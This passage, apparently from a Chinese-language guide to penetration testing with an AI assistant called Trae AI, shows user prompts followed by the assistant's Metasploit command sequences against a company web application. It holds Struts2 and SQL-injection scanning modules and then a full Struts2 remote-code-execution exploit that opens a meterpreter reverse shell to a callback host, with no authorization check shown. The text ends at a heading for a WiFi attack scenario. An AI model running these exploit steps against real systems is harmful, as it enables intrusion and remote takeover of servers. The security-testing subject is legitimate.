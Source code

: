 ### 階段 2：漏洞掃描

**用戶提問：**
```
掃描 Web 應用的已知漏洞
```

**Trae AI 執行流程：**
```
# 1. Struts2 漏洞掃描
use auxiliary/scanner/http/struts2_code_exec_parameters
set RHOSTS webapp.company.com
set RPORT 443
set SSL true
set TARGETURI /app
run

# 2. SQL 注入檢測
use auxiliary/scanner/http/sql_injection
set RHOSTS webapp.company.com
set RPORT 443
set SSL true
run
```

### 階段 3：Web 應用利用

**用戶提問：**
```
利用發現的 Struts2 漏洞獲取服務器訪問權限
```

**Trae AI 執行流程：**
```
# 利用 Struts2 RCE 漏洞
use exploit/multi/http/struts2_rest_xstream
set RHOSTS webapp.company.com
set RPORT 443
set SSL true
set TARGETURI /app/orders
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4448
exploit
```

## 場景三：無線網絡滲透

### 目標環境
- **目標**：企業 WiFi 網絡
- **SSID**：COMPANY-WIFI
- **安全類型**：WPA2-Enterprise
